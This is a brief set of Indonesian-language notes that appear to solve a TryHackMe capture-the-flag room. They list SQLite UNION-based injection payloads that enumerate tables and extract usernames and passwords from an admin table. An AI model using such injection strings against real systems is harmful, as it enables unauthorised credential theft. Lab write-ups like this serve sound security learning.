 1. scan aja kalau iseng -> coba nc kayak perintah -> ketik nama jadi muncul passwd
2. coba sqli -> smokey' union select name from sqlite_master where type='table
3. smokey' Union Select username FROM admintable WHERE username like '%
4. dapet tuh username nya -> passwd nya butuh sqli
5. smokey' Union Select password FROM admintable WHERE username='TryHackMeAdmin
6. coba ssh gabisa pake admin itu coba ini
7. smokey' Union Select username FROM admintable WHERE username !='TryHackMeAdmin
8. liat passwd nya -> smokey' Union Select password FROM admintable WHERE username='flag
9. ini sqlite injection
